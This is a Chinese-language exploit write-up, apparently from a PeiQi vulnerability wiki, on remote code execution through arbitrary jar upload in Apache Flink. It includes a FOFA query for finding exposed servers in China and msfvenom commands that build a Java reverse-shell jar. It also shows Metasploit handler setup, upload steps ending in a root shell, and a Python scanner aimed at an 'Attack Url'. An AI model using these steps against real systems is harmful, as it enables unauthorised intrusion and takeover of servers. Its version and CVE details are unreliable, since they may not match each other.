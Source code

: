 # Apache Flink <= 1.9.1(最新版本) 远程代码执行 CVE-2020-17518

## 漏洞描述

近日,有安全研究员公开了一个Apache Flink的任意Jar包上传导致远程代码执行的漏洞.

##  漏洞影响

> [!NOTE]
>
> Apache Flink  <= 1.9.1(最新版本)

## FOFA

```fofa
FOFA 语句
app="Apache-Flink" && country="CN"
```

![](image/flink-1.png)

国内还是很多使用 `Apache Flink` 的，大概有1000的数量左右

## 漏洞复现

打开一个使用 Apache Flink 的网站，打开后页面为这样子

![](image/flink-2.png)

点击查看文件上传页面

![](image/flink-3.png)



打开MSF 生成一个 jar 木马

```shell
msfvenom -p java/meterpreter/reverse_tcp LHOST=xxx.xxx.xxx.xxx  LPORT=4444 -f jar > test.jar
```

点击 Add 上传 jar 文件

![](image/flink-4.png)

监听端口

```shell
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload java/shell/reverse_tcp
payload => java/shell/reverse_tcp
msf6 exploit(multi/handler) > set lhost xxx.xxx.xxx.xxx
lhost => xxx.xxx.xxx.xxx
msf6 exploit(multi/handler) > set lport 4444
lport => 4444
msf6 exploit(multi/handler) > run
```

![](image/flink-6.png)

点击下 submit 

![](image/flink-5.png)

反弹回来一个root 权限shell

![](image/flink-7.png)

## 漏洞检测POC

```python
import requests

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: Apache Flink <= 1.9.1          \033[0m')
    print('+  \033[36m使用格式: python3 Apache_Flink.py         \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx:9999  \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/jars/upload"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }
    try:
        response = requests.get(url=vuln_url, headers=headers, timeout=20)
        if "Unable to load requested file /jars/upload." in response.text:
            print("\033[32m[o] 可能存在 Apache Flink <= 1.9.1 远程代码执行漏洞\n\033[0m")
        else:
            print("\033[31m[x] 目标Url 文件上传模块无法使用\033[0m")
    except:
        print("\033[31m[x] 目标Url漏洞利用失败\033[0m")



if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](image/flink-8.png)

